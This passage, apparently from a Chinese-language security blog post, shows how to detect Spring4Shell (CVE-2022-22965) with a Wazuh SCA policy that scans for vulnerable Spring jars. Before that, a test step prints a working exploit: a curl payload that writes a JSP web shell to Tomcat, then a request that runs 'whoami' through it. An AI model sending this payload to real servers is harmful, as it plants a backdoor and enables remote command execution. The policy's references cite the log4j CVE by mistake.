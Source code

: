 ```plain
systemctl restart wazuh-agent
```
测试一下：
```plain
curl -v -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://WEB_SERVER/

curl -X GET "http://WEB_SERVER/tomcatwar.jsp?pwd=j&cmd=whoami"
```
### 检测受影响的Spring framework版本

和上篇文章一样[利用wazuh检测](http://mp.weixin.qq.com/s?__biz=MzI1ODA2MDgzOQ==&mid=2247484787&idx=1&sn=0229d2564880f70db1ac86d6f2f6b1a9&chksm=ea0ca23bdd7b2b2d0624982640dd0d4061e4ff65627aa55a86c8dda786e4e043a8e0623aa950&scene=21#wechat_redirect)[log4j](http://mp.weixin.qq.com/s?__biz=MzI1ODA2MDgzOQ==&mid=2247484787&idx=1&sn=0229d2564880f70db1ac86d6f2f6b1a9&chksm=ea0ca23bdd7b2b2d0624982640dd0d4061e4ff65627aa55a86c8dda786e4e043a8e0623aa950&scene=21#wechat_redirect)[ ](http://mp.weixin.qq.com/s?__biz=MzI1ODA2MDgzOQ==&mid=2247484787&idx=1&sn=0229d2564880f70db1ac86d6f2f6b1a9&chksm=ea0ca23bdd7b2b2d0624982640dd0d4061e4ff65627aa55a86c8dda786e4e043a8e0623aa950&scene=21#wechat_redirect)[sh](http://mp.weixin.qq.com/s?__biz=MzI1ODA2MDgzOQ==&mid=2247484787&idx=1&sn=0229d2564880f70db1ac86d6f2f6b1a9&chksm=ea0ca23bdd7b2b2d0624982640dd0d4061e4ff65627aa55a86c8dda786e4e043a8e0623aa950&scene=21#wechat_redirect)[e](http://mp.weixin.qq.com/s?__biz=MzI1ODA2MDgzOQ==&mid=2247484787&idx=1&sn=0229d2564880f70db1ac86d6f2f6b1a9&chksm=ea0ca23bdd7b2b2d0624982640dd0d4061e4ff65627aa55a86c8dda786e4e043a8e0623aa950&scene=21#wechat_redirect)[ll](http://mp.weixin.qq.com/s?__biz=MzI1ODA2MDgzOQ==&mid=2247484787&idx=1&sn=0229d2564880f70db1ac86d6f2f6b1a9&chksm=ea0ca23bdd7b2b2d0624982640dd0d4061e4ff65627aa55a86c8dda786e4e043a8e0623aa950&scene=21#wechat_redirect)，这里我们用到的是`SCA`。

step 1 : 创建`/v``a``r/``oss``ec/e``t``c/s``har``ed/def``a``ul``t``/sp``rin``g4sh``e``ll``_c``h``ec``k.y``ml`

```plain
policy:
  id: "spring4shell_check"
  file: "spring4shell_check.yml"
  name: "Spring4Shell dependency check"
  description: "This document provides prescriptive guidance for identifying Spring4Shell RCE vulnerability"
  references:
    - https://nvd.nist.gov/vuln/detail/CVE-2021-44228
    - https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance
requirements:
  title: "Check if Java is present on the machine"
  description: "Requirements for running the SCA scan against machines with Java on them."
  condition: all
  rules:
    - 'c:sh -c "ps aux | grep java | grep -v grep" -> r:java'
checks:
  - id: 10000
    title: "Ensure Spring framework is not under 5.3.18 or 5.2.20."
    description: "The Spring framework is vulnerable to Spring4Shell RCE (CVE-2022-22965) on versions 5.3.0 to 5.3.17, and 5.2.0 to 5.2.19"
    remediation: "Update the Spring framework to version 5.3.18 or 5.2.20"
    condition: none
    rules:
      - 'c:find / -name "*.jar" -type f -exec sh -c "if unzip -l {} | grep org/springframework/; then unzip -p {} META-INF/MANIFEST.MF; fi | grep Implementation-Version" \; -> r:5.3.0$|5.3.1$|5.3.2$|5.3.3$|5.3.4$|5.3.5$|5.3.6$|5.3.7$|5.3.8$|5.3.9$|5.3.10$|5.3.11$|5.3.12$|5.3.13$|5.3.14$|5.3.15$|5.3.16$|5.3.17$|5.2.0$|5.2.1$|5.2.2$|5.2.3$|5.2.4$|5.2.5$|5.2.6$|5.2.7$|5.2.8$|5.2.9$|5.2.10$|5.2.11$|5.2.12$|5.2.13$|5.2.14$|5.2.15$|5.2.16$|5.2.17$|5.2.18$|5.2.19$'
```